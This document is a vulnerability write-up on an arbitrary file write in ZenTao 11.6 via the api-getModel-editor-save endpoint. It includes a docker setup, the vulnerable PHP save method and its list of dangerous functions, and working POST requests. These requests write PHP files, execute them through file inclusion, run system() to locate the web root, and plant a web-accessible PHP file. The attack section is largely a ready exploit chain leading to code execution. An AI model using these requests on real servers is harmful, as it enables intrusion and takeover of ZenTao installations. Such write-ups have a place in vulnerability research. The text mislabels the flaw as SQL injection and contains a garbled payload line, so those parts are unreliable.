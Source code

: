 # Zen Tao 11.6 api-getModel-editor-save-filePath Arbitrary file writing vulnerability

## Vulnerability Description

In Zen Tao 11.6, the user interface call permission filtering is incomplete, resulting in the call interface executing SQL statements, resulting in SQL injection

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zen Tao 11.6</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">This is built using the docker environment</span>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-1-20220313232232109.png)



## Vulnerability reappears



The reason for the vulnerability here is also the reason for unlimited permissions for calling the interface.

For the specific reference to the reasons for the interface vulnerability, please see the previous article `Zen Tao Version 11.6 SQL Injection Vulnerability`. Complete analysis of this vulnerability

Check out the `save method under `module/api/ediyor/moudel.php`

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```



`$filePath parameter and $fileContent parameter` we are controllable



Call the method to write a `phpinfo()` to `/tmp`



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell.php

fileContent=<?php phpinfo();?>
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-24.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-25.png)



In using Zen Tao version 11.6, arbitrary file reading vulnerability, the second method to include the file



```plain
/api-getModel-api-getMethod-filePath=/tmp/shell/1
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-26.png)



It can also be written into the website directory



Get the address first



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php system('find / -name ioncube.php')?>');?>
```



Visit `/api-getModel-api-getMethod-filePath=/tmp/shell/1`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-27.png)



Get the directory as `/app/zentaopma/www`



Request to change



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```


</a-alert>
<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-28.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-29.png)

